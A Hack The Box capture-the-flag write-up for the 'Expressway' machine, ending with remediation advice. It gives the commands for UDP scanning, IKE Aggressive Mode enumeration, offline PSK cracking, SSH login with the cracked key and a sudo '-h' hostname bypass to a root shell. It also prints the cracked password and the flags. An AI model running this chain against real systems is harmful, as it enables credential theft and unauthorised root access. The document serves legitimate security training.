# Expressway — Hack The Box Writeup

**Machine Information:**
- **Author:** Muhil M  
- **Name:** Expressway
- **Difficulty:** Easy
- **Operating System:** Linux (Ubuntu 22.04.5 LTS)

---

## • TLDR Summary

Expressway exposes only SSH on TCP but also leaks an IPsec/IKE service on UDP 500.  
IKE in Aggressive Mode reveals an identity (`ike@expressway.htb`) and a PSK hash.  
Cracking the PSK using `psk-crack` gives valid SSH credentials for user `ike`.  
User `ike` belongs to the `proxy` group, allowing access to Squid logs.  
Squid logs reveal an internal hostname: `offramp.expressway.htb`.  
A custom sudo binary accepts a `-h` hostname parameter and trusts that internal host.  
Using the hostname bypass grants full root access.

---

## • Reconnaissance

### • Target Information

```
Target IP: 10.10.11.87
```

---

### • TCP Scan

**Command**

```bash
sudo nmap -Pn -sC -sV -oN expressway_tcp.nmap 10.10.11.87
```

**Output**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
```

Only SSH is exposed.



---

### • UDP Scan

First a full UDP scan was run (slow):

```bash
sudo nmap -sU -oN expressway_udp.nmap 10.10.11.87 -T5
```

**Result**

```
500/udp open isakmp
```



A faster targeted UDP scan:

```bash
sudo nmap -Pn -sU -p 500 -sV --open -oN expressway_udp_500only.nmap 10.10.11.87
```

Output:

```
500/udp open isakmp
```



UDP/500 (ISAKMP/IKE) is the key service.

---

## • IKE Aggressive Mode Enumeration

Check for IKE Aggressive Mode identity leakage:

```bash
sudo ike-scan -A 10.10.11.87 | tee ike_aggressive.txt
```

**Important finding**

```
ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
```

This reveals the username **ike**.



---

## • PSK Extraction & Cracking

Generate PSK-crackable blob:

```bash
sudo ike-scan -A 10.10.11.87 --pskcrack=ike.psk
head -c 200 ike.psk
```



Crack the PSK using `psk-crack` and the rockyou wordlist:

```bash
psk-crack -d /tmp/rockyou.txt ike.psk | tee psk_crack_output.txt
```

**Output**

```
key "freakingrockstarontheroad" matches SHA1 hash ...
```



Password found:

```
freakingrockstarontheroad
```

---

## • SSH Access

Now use the identity `ike` and the cracked PSK as password:

```bash
ssh ike@10.10.11.87
```



Login successful.

---

## • Post-Exploitation Enumeration

Check user details:

```bash
id
hostname
cat /home/ike/user.txt
```

**Output**

```
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
hostname: expressway.htb
user flag: f4ed77b079e65d3a0f328aa79acfd57c
```

User flag displayed:



---

### • Interesting Finding: Custom sudo

Check sudo:

```bash
which sudo
/usr/local/bin/sudo -V 
sudo -l
```



Key observations:

- sudo binary is **custom** (`/usr/local/bin/sudo`)
- version is **1.9.17**
- host-based sudo policy is likely implemented

---

## • Privilege Escalation (Hostname-Based Sudo Bypass)

Since `ike` belongs to the `proxy` group, inspect Squid logs:

```bash
ls -l /var/log/squid
cat /var/log/squid/access.log.1 | less
grep -i 'expressway' /var/log/squid/access.log.1 | sort -u
```

**Important discovery**

```
GET http://offramp.expressway.htb
```

This internal hostname is accepted by the custom sudo’s `-h` parameter.



---

### • Exploit: Sudo Hostname Impersonation

Execute sudo while impersonating the internal host:

```bash
/usr/local/bin/sudo -h offramp.expressway.htb /bin/sh
```

Inside the shell:

```bash
id
whoami
cat /root/root.txt
```

**Output**

```
uid=0(root)
root
7bce1fefd843c173b7824252b51e36c6
```



Root flag:

```
7bce1fefd843c173b7824252b51e36c6
```

---

## • Flags

```
User: f4ed77b079e65d3a0f328aa79acfd57c
Root: 7bce1fefd843c173b7824252b51e36c6
```

---

## Why the Exploit Worked 

###  1. IKE Aggressive Mode leaked identity

The VPN was running IKE in Aggressive Mode, which exposed the username (`ike@expressway.htb`) before authentication.

### 2. PSK handshake was crackable offline

Aggressive Mode with PSK creates a hash that can be brute-forced with wordlists.  
The PSK was weak and found in rockyou.txt.

### 3. PSK reused as SSH password

The cracked VPN PSK was also the SSH password, allowing immediate shell access.

### 4. Squid logs revealed internal hostnames

User `ike` could read `/var/log/squid/`, exposing `offramp.expressway.htb`, which mattered for sudo bypass.

### 5. Custom sudo trusted user-supplied hostname

`/usr/local/bin/sudo -h <hostname>` accepted attacker-controlled hostnames without validation, granting root.

---

## How to Remediate 

### 1. Disable IKE Aggressive Mode

Use Main Mode or certificate-based authentication to prevent identity leakage and offline cracking.

### 2. Do not use PSKs or weak passwords

Replace PSKs with certificates.  
Enforce unique, strong passwords; never reuse VPN keys as SSH credentials.

### 3. Restrict access to proxy/Squid logs

Only admins should read internal service logs to prevent hostname/infra discovery.

### 4. Remove or fix custom sudo implementation

Do not trust user-supplied hostnames.  
Use standard system sudo with strict `/etc/sudoers` rules.

### 5. Apply least privilege

Limit group memberships and unnecessary access to internal data to prevent privilege escalation chaining.

---

## • Conclusion

Expressway is a great example of how **exposed UDP services**, especially IPsec/IKE using **Aggressive Mode**, can leak authentication identifiers and enable offline PSK cracking.  
Once inside, a misconfigured **custom sudo binary** combined with Squid log exposure lets the attacker impersonate a trusted internal hostname and escalate to root.

This machine reinforces three major lessons:

1. Always scan UDP ports.
2. IKE Aggressive Mode is dangerous and should not be used.
3. Host-based trust in sudo is extremely insecure.

Machine fully owned.


